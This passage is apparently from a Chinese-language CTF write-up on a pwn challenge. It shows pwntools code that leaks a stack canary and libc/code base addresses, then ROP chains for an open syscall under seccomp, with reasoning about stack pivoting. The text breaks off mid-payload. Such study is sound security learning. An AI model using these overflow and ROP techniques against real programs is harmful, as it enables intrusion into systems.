 2. 知道漏洞在哪裡之後，我們就可以利用這個洞，把stack的東西leak出來
    ```python
    payload = b'HACHAMA'.ljust(0x8, b'\x00')
    r.send(payload)
    result = r.recv(0x61)
    log.info("[-------------Stack Info-------------]")
    for i in range(12):
        log.info(hex(u64(result[i * 8:i * 8 + 8])))
    log.info("[-------------Stack Info-------------]")

    canary = u64(result[7 * 8:7 * 8 + 8])
    libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
    libc_base_addr = libc_start_main - 0x29d90 + 0x80
    main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
    code_segment_base = main_fn_addr - 0x331

    log.success(f'Canary = {hex(canary)}')
    log.success(f'libc start main base = {hex(libc_start_main)}')
    log.success(f'libc base addr = {hex(libc_base_addr)}')
    log.success(f'Main Function Address = {hex(main_fn_addr)}')
    log.success(f'Code Segment = {hex(code_segment_base)}')
    ```
3. 有了canary / libc base 和code segment base / main function address，就可以來搞事了，初步的想法是直接寫一個open / read / write的syscall(因為seccomp的關係導致我們的操作極其有限)，不過因為我們也只是多了0x31的空間可以寫ROP，代表一定沒辦法把所有的shellcode都寫上去，這時候就需要用到stack pivot的技術，開一個相對大的空間繼續我們的作業，但就像@ccccc說的
    > stack pivot只是把你的stack用到其他地方而已，並不會因為你換了stack的位置你就能overflow比較多

    所以比較正確的觀念是，我先利用多出來的0x31把可以用的空間開大，再寫gadget，會比較方便，如果是像lab那樣每一個步驟都切成一個stack pivot的話也不現實，因為一個操作所需要的空間一定大於0x31，隨便舉個例子，如果是open→`fd = open("/home/chal/flag.txt", 0);`，全部的payload如下:
    ```python
    payload = b'/home/chal/flag.txt'.ljust(0x38, b'\x00')
    payload += flat(
        canary,
        0,
        pop_rax_ret, 2,
        pop_rdi_ret, bss_addr_flag - 0x40,
        pop_rdx_rbx_ret, 0, 0,
        pop_rsi_ret, 0,
        syscall_ret
    )
    ```
    最少也需要0x98的空間，所以擴大可以寫的空間是必要的，但我還是稍微嘮叨一下，一開始我的想法是直接把n2的數值改掉，這樣就可以解決上述的問題，但實際操作會發現這也不現實，因為payload也會過長，如下
    ```python
    payload = b'a' * 0x38
    payload += flat(
        canary,
        rbp,
        pop_rdi_ret, n2_addr,
        pop_rdx_ret, 0x200,
        mov_qword_ptr_rdi_rdx_ret,
        main_fn_addr + 291,
    )
    ```
    這樣最少也需要0x78的空間，比起最大值的0x61還差蠻多的，所以昨天就想了超久怎麼解決這個問題
3. 解決空間大小的問題
    這個要回到動態實際執行的時候是怎麼呼叫的(如下圖)，這一題有趣的地方在這邊，理論上我們是回到main+291，讓他fetch n2的值給RAX，但如果我直接跳到main+298，並且利用rop把rax變大，是不是也有一樣的效果
    ![圖片](https://hackmd.io/_uploads/Syoe0OTHp.png)
    ```python
    extend_payload = flat(
        canary,
        bss_addr_flag,
        pop_rax_ret, 400,